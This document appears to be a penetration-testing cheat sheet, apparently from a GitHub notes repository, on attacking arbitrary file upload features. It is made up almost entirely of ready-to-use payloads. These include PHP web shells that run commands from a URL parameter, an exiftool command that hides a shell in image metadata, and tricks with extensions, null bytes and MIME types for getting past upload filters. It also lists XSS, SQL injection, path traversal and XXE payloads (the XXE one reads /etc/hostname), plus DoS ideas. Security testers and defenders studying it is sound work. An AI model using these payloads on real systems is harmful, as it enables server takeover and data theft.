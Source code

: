 ### Vulnerabilities via Arbitrary File Upload


### Bypasses
#### MIME Type Bypass
```
Content-Type: image/jpeg
```

#### Content-Length Bypass
```
<?php system($_GET['c']);?>
```

#### Magic Number Validation Bypass
##### Use Exiftool and instert malicious code
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['c']);?>' image.jpg
mv image.jpg image.php.jpg
```
#### Extension Bypass

| Type        | Extension       |
| ------------- |---------------|
| **php**      | phtml, .php, .php3, .php4, .php5, and .inc |
| **asp**      | asp, .aspx      |
| **perl** | .pl, .pm, .cgi, .lib      |
| **jsp**      | .jsp, .jspx, .jsw, .jsv, and .jspf      |
| **Coldfusion**      | .cfm, .cfml, .cfc, .dbm      |

#### Other Techniques(Extension Bypass)
```
file.shtml
file.asa
file.cert
```

##### Captal Letters of Extensions
```
file.PhP
file.AspX
```

#### Using Special Trailing Such as Spaces, Dots or Null Characters
```
file.asp...
file.php;jpg
file.php%00.png
file.php\x00.png
file.jpg%00.php
```

#### In IIS6 vulnerability, if the file name is ```file.asp;file.jpg```, the file will be executed as ```file.asp```.
#### In NginX, if the original file name is ```test.jpg```, testers/hackers may change it to ```test.jpg/x.php```, the file will be executed as ```x.php```.

### Chain With Other Vulnerabilities

#### XSS(Cross Site Scripting)
```
Filename: "><svg onload=alert(1)>.jpeg
xss.svg -> file contain xss payload inside svg format
```

#### SQL Injection
```
'sleep(10).jpg
```

#### Path Traversal
```
../../logo.png
../../etc/passwd/logo.png
```

#### RCE
```
ImageTragic
```

#### XXE
##### Filename: xxe.svg
##### Content-Type: image/svg+xml
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

#### SSRF
```
Change 'type=file' to 'type=url'
```
#### DoS Attack via Long File Name
```
# This one is a sample
# File name can be larger than this
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbb.jpeg
```

#### DoS Attack via Pixel Flood Attack
![lottapixel.jpg](../Images/lottapixel.jpg)

#### Uploaded file not found? Try Path Traversal on filename.
#### Try to brutefore file extension
